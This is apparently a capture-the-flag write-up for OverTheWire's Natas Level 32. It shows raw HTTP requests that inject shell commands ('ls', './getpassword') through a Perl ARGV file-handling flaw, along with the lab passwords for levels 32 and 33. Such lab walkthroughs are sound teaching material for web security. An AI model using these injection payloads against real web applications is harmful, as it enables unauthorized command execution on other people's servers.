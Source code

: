# Natas CTF Solutions  

## Natas Level 32  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit a **command injection vulnerability** to execute a binary file in the webroot and retrieve the password for the next level.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas32.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas32`  
- **Password:** Use the password from Natas Level 31:  
```
NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B
```  

![Home_Page](https://github.com/user-attachments/assets/0f5cae76-3749-4df8-b6e2-ae1a73bdf614)

---

### **Step 3: Review the Source Code**  
The source code is identical to Natas Level 31, which means the vulnerability is still based on **unsanitized file input** being processed through shell commands:  

```perl
while (<$file>) {
    print;
}
```  

![Source_Code](https://github.com/user-attachments/assets/0f4175e4-174c-4a07-b373-b9303f29406e)

✅ This allows for **command injection** through the `ARGV` parameter.  

---

### **Step 4: List Files in the Webroot**  
We can use a shell command to list files:  

Modify the request using **Burp Suite**:  
```http
POST /index.pl?/bin/ls%20-al%20.%20| HTTP/1.1
Host: natas32.natas.labs.overthewire.org
Authorization: Basic bmF0YXMzMjptN2JmakFIcEpN... [base64]
Content-Type: multipart/form-data; boundary=---------------------------407327551338850085443757983336

-----------------------------407327551338850085443757983336
Content-Disposition: form-data; name="file";
Content-Type: text/plain

ARGV
-----------------------------407327551338850085443757983336
```

✅ **Explanation:**  
- `/bin/ls` → List files in the directory.  
- `%20` → Represents a space.  
- `-al .` → Lists all files (including hidden) in the current directory.  

![BurpSuite](https://github.com/user-attachments/assets/9ec37a0e-cdfd-4c9a-91b7-7e09248d80c5)

---

### **Step 5: Execute the `getpassword` Binary**  
From the file list, you'll see a binary named `getpassword`.  
Execute it using:  

```http
POST /index.pl?./getpassword%20| HTTP/1.1
Host: natas32.natas.labs.overthewire.org
Authorization: Basic bmF0YXMzMjptN2JmakFIcEpN... [base64]
Content-Type: multipart/form-data; boundary=---------------------------407327551338850085443757983336

-----------------------------407327551338850085443757983336
Content-Disposition: form-data; name="file";
Content-Type: text/plain

ARGV
-----------------------------407327551338850085443757983336
```

✅ **Explanation:**  
- `./getpassword` → Executes the binary to print the password.  
- `|` → Ensures the input is treated as a shell command.  

![Password](https://github.com/user-attachments/assets/ef8bdc81-5982-4875-b051-cd72b7fd5f45)

---

### **✅ Password for Natas Level 33**  
```
2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ
```

---

## 💡 **Lessons Learned**  
✔️ **Command Injection:** Improper sanitization of input allows direct execution of shell commands.  
✔️ **File Execution:** If files or binaries are present in the webroot, they can be directly executed using command injection.  
✔️ **Burp Suite Manipulation:** Intercepting and modifying HTTP requests allows for testing hidden endpoints and vulnerabilities.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 4 – File Listing | ![BurpSuite](https://github.com/user-attachments/assets/9ec37a0e-cdfd-4c9a-91b7-7e09248d80c5) |  
| Step 5 – Command Execution | ![Password](https://github.com/user-attachments/assets/ef8bdc81-5982-4875-b051-cd72b7fd5f45) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 33**:  
👉 [http://natas33.natas.labs.overthewire.org](http://natas33.natas.labs.overthewire.org)  

---
